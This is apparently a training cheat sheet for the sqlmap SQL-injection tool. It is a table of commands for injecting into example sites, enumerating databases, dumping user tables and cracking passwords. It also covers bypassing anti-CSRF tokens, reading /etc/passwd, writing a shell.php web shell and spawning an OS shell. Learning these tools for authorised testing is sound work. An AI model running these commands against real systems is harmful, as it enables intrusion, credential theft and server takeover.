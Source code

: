 The cheat sheet is a useful command reference for this module.

|**Command**|**Description**|
|---|---|
|`sqlmap -h`|View the basic help menu|
|`sqlmap -hh`|View the advanced help menu|
|`sqlmap -u "http://www.example.com/vuln.php?id=1" --batch`|Run `SQLMap` without asking for user input|
|`sqlmap 'http://www.example.com/' --data 'uid=1&name=test'`|`SQLMap` with POST request|
|`sqlmap 'http://www.example.com/' --data 'uid=1*&name=test'`|POST request specifying an injection point with an asterisk|
|`sqlmap -r req.txt`|Passing an HTTP request file to `SQLMap`|
|`sqlmap ... --cookie='PHPSESSID=ab4530f4a7d10448457fa8b0eadac29c'`|Specifying a cookie header|
|`sqlmap -u www.target.com --data='id=1' --method PUT`|Specifying a PUT request|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" --batch -t /tmp/traffic.txt`|Store traffic to an output file|
|`sqlmap -u "http://www.target.com/vuln.php?id=1" -v 6 --batch`|Specify verbosity level|
|`sqlmap -u "www.example.com/?q=test" --prefix="%'))" --suffix="-- -"`|Specifying a prefix or suffix|
|`sqlmap -u www.example.com/?id=1 -v 3 --level=5`|Specifying the level and risk|
|`sqlmap -u "http://www.example.com/?id=1" --banner --current-user --current-db --is-dba`|Basic DB enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --tables -D testdb`|Table enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb -C name,surname`|Table/row enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --dump -T users -D testdb --where="name LIKE 'f%'"`|Conditional enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --schema`|Database schema enumeration|
|`sqlmap -u "http://www.example.com/?id=1" --search -T user`|Searching for data|
|`sqlmap -u "http://www.example.com/?id=1" --passwords --batch`|Password enumeration and cracking|
|`sqlmap -u "http://www.example.com/" --data="id=1&csrf-token=WfF1szMUHhiokx9AHFply5L2xAOfjRkE" --csrf-token="csrf-token"`|Anti-CSRF token bypass|
|`sqlmap --list-tampers`|List all tamper scripts|
|`sqlmap -u "http://www.example.com/case1.php?id=1" --is-dba`|Check for DBA privileges|
|`sqlmap -u "http://www.example.com/?id=1" --file-read "/etc/passwd"`|Reading a local file|
|`sqlmap -u "http://www.example.com/?id=1" --file-write "shell.php" --file-dest "/var/www/html/shell.php"`|Writing a file|
|`sqlmap -u "http://www.example.com/?id=1" --os-shell`|Spawning an OS shell|